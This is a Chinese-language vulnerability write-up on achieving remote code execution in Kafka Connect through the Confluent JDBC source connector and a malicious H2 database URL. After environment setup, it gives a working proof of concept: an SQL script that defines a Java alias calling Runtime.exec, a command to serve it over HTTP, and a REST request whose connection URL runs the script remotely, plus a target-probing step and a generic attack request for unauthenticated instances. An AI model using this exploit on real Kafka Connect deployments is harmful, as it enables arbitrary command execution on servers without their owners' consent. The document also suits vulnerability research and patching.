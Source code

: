 
# JDBC 反序列化造成kafka Connect任意代码执行
## 前情
日常吃瓜，刷到kafka爆出RCE，为其Connect框架存在JNDI注入，如下：
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out.png)
查看相应解析，发现只是简单修改了某项配置：
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927162901607.png)
JAAS是java的认证与授权机制，Kakfa支持使用JNDI登陆模块进行登陆：
![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163013645.png)
 该漏洞发生于客户端与服务端进行初次连接的时候，向服务端发送用户的提供地址，伪造一个恶意的JNDI服务，从而造成命令执行。
由此推测作者应该是翻kafka的官方文档，查找API、配置等，刚好发现该配置支持JNDI，判断JNDI URL是否可控，发现可控，成功挖掘0day。
然后沿着作者的思路，尝试翻看官方文档，是否存在类似配置，最终查找了大半天并未发现。
然后开始思考，kafka Connect框架的作用是用来从其他数据库导入数据到kafka，也可以将kafka中的数据导出到其他数据库，那么将其他数据库的数据导入kafka时，是否可以控制数据库连接地址的URL，造成JDBC 反序列化，从而命令执行呢？
一开始发现kafka的Connect只提供了最基本的Connector，没有提供从数据库读取信息到kafka的具体实现，再次搜索相关信息，发现JDBC具体实现由Confluent公司提供，这是一个很常见的功能，为什么kafka不提供呢？我觉得原因有亮点：
● 他作为框架，只提供了基础架构，而JDBC虽然常用，但是不好持续维护；
● JDBC由kafka的商业化母公司Confluent提供，估计是为了以后捞钱；
搭建环境
从官网下载最新的kafka：
![image-20230804211601546](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163106007.png)
解压：
 ![image-20230804211732233](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163141985.png)
配置kafka：
$ vim config/server.properties
修改server.properties 文件：
...
//添加这一句
listeners=PLAINTEXT://:9092

...
//还有这个
zookeeper.connect=localhost:2181

...
启动zookeeper：
$ bin/zookeeper-server-start.sh config/zookeeper.properties
打开一个终端运行kafka：
$ cd ~/Dev/kafka_2.13-3.5.1/
$ bin/kafka-server-start.sh config/server.properties
接着配置kafka Connect，先介绍一下kafka Connect：
kafka Connect是一个框架，提供了从其他数据库获取信息到kafka，或者从kafka导出信息到数据库的能力，他并没有具体的实现，具体的实现由Confluent公司提供，他是kafka的商业化母公司，对于数据库的具体实现为JDBC Connector。
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163159105.png)
先下载JDBC Connector从该URL：https://www.confluent.io/hub/confluentinc/kafka-connect-jdbc：
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163223339.png)
打开一个新终端，在kafka的根目录创建一个connector-libs目录，然后解压刚刚下载的zip包，移动到connector-libs目录：
$ cd ~/Dev/kafka_2.13-3.5.1/
$ mkdir connector-libs 
$ unzip ~/Downloads/confluentinc-kafka-connect-jdbc-10.7.3.zip
$ mv ./confluentinc-kafka-connect-jdbc-10.7.3/lib connector-libs/
本示例使用h2作为数据库源进行演示，h2是java语言开发的嵌入式数据库，SpringBoot就使用了H2数据库，同时他也是最容易执行命令的，其他数据库也有同样的效果，不过会比较麻烦。
下载H2 数据引擎jar包, 将它移动到connector-libs目录：
 ![image-20230804213805768](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163253546.png)
$ mv ~/Downloads/h2-1.4.199.jar ~/Dev/kafka_2.13-3.5.1/connector-libs/lib/
配置 connect-standalone.properties, 添加 plugin.path熟悉：
$ vim config/connect-standalone.properties
添加下面一行：
plugin.path=/Library/Java/JavaVirtualMachines/jdk1.8.0_111.jdk/Contents/Home,/Users/zeanhike/Dev/kafka_2.13-3.5.1/connector-libs/lib
将 h2-1.4.199.jar 设置 CLASSPATH 环境变量（该处卡了一天，一开始并没有想到要将该jar导出到CLASSPATH，然后一直报错，找不到合适的数据库连接池，然后找到StackOver社区，才发现要导出到CLASSPATH）
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163315051.png)
启动 Kafka Connect：
$ bin/connect-standalone.sh config/connect-standalone.properties 
攻击
创建一个SQL并将它保存为poc.sql：
CREATE ALIAS EXEC_CMD AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "zeanhike";}';CALL EXEC_CMD ('open -a Calculator.app')
启动HTTP 服务并且将poc.sql文件放到http服务的根目录：
$ python3 -m http.server 1022
然后发送如下包：
POST http://localhost:8083/connectors
Content-Type: application/json

{
  "name": "zeanhike",
  "config": {
    "connector.class": "io.confluent.connect.jdbc.JdbcSourceConnector",
    "connection.url": "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:1022/poc.sql'",
    "connection.user": "zeanhike",
    "connection.password": "zeanhike",
    "topic.prefix": "mysql-01-",
    "mode":"bulk"
  }
}
 
 
不足
● 还未尝试其他数据库，比如MySQL、Oracle等
● 未做成自动化检测工具、并集成其他数据库
● 需要kafka Connect存在同时使用了JDBC Connector、且未开启鉴权（默认不开启）
Payload
探测kafka Connect是否存在：
curl http://hostname:port/connectors
 
然后根据返回的关键字判断使用了什么数据库（不准确，可以盲打），然后发送以下攻击包：
POST http://localhost:8083/connectors
Content-Type: application/json

{
  "name": "zeanhike",
  "config": {
    "connector.class": "io.confluent.connect.jdbc.JdbcSourceConnector",
    "connection.url": "恶意数据库的连接URL",
    "connection.user": "zeanhike",
    "connection.password": "zeanhike",
    "topic.prefix": "mysql-01-",
    "mode":"bulk"
  }
}
漏洞利用方式和效果由于不同的数据库而不同，该项目集结了大部分的JDBC攻击https://github.com/su18/JDBC-Attack，MySQL的利用需要用到MySQL Fake Server（https://github.com/fnmsd/MySQL_Fake_Server），H2的利用仅仅需要一个sql语句或者不用都行。
修复
在JdbcSourceConnector类上，过滤掉恶意数据库连接URL。
